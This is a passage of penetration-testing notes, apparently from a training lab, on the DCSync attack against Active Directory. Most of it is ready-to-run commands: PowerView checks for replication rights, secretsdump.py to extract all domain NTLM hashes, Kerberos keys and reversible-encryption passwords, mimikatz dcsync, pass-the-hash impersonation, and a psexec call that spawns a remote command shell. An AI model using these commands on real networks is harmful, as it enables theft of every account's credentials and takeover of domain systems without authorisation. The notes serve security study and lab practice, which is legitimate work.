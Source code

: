 We can check if a user has this privilege:
```console
PS C:\zeropio> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

We can confirm it with **Get-ObjectACL**:
```console
PS C:\zeropio> $sid= "<SID OF USER>"
PS C:\zeropio> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

With certain rights over the user (for example **WriteDacl**) we can even add this privilege. 

To extract all the hashes we can use **secretsdump.py**:
```console
zero@pio$ secretsdump.py -outputfile <OUTPUT FILE> -just-dc <DOMAIN>/<USER>@<DOMAIN CONTROLLER IP>
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `-just-dc` | generate three files, NTLM hashes, Kerberos keys and cleartext passwords from NTDS with reversible encryption enabled |
| `-just-dc-ntlm` | only NTLM hashes |
| `-just-dc-user <USER>` | specific user |
| `-pwd-last-set` | see when each account's password was changed |
| `-history` | dump password history |
| `-user-status` | check and see if a user is disabled |

We can enumerate all the users with this reversible encryption:
```console
PS C:\zeropio> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

Or:
```console
PS C:\zeropio> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'}
```

This attack can be done with mimikatz as well:
```console
PS C:\zeropio> .\mimikatz.exe

mimikatz # lsadump::dcsync /domain:<DOMAIN>.LOCAL /user:<DOMAIN>\administrator
```

If we want to impersonate before doing it:
```console
mimikatz # sekurlsa::pth /user:<USER> /ntlm:<NTLM HASH> /domain:<DOMAIN>.local /impersonate
```

We can also execute commands through mimikatz to spawn a cmd (we need to be connect to RDP) with the Psexec.exe util in the same folder:
```console
mimikatz # sekurlsa::pth /user:administrator /ntlm:<NTLM HASH> /domain:<DOMAIN>.local /run:".\psexec.exe /accepteula \\<COMPUTER NAME>.<DOMAIN>.local -h cmd.exe" 
```

---